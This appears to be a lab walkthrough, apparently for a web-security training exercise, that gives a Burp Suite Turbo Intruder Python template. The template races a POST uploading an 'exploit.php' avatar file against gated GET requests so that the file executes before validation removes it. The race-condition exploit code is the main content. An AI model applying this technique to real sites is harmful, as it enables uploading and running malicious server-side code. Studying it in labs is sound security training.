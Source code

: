 ## Burp Suite Community Edition

### Turbo Introducer

**Usage**
  * Select Extensions > Turbo Intruder > Send to turbo intruder
  * Copy and paste the following script template into Turbo Intruder's Python editor:
  ```python
  def queueRequests(target, wordlists):
      engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

      request1 = '''<YOUR-POST-REQUEST>'''

      request2 = '''<YOUR-GET-REQUEST>'''

      # the 'gate' argument blocks the final byte of each request until openGate is invoked
      engine.queue(request1, gate='race1')
      for x in range(5):
          engine.queue(request2, gate='race1')

      # wait until every 'race1' tagged request is ready
      # then send the final byte of each request
      # (this method is non-blocking, just like queue)
      engine.openGate('race1')

      engine.complete(timeout=60)


  def handleResponse(req, interesting):
      table.add(req)
  ```
  * In the script, replace `<YOUR-POST-REQUEST>` with the entire POST /my-account/avatar request containing your exploit.php file. You can copy and paste this from the top of the Turbo Intruder window. Same with `<YOUR-GET-REQUEST>`

  > **Note**
  > If you choose to build the GET request manually, make sure you terminate it properly with a `\r\n\r\n` sequence. Also remember that Python will preserve any whitespace within a multiline string, so you need to adjust your indentation accordingly to ensure that a valid request is sent.

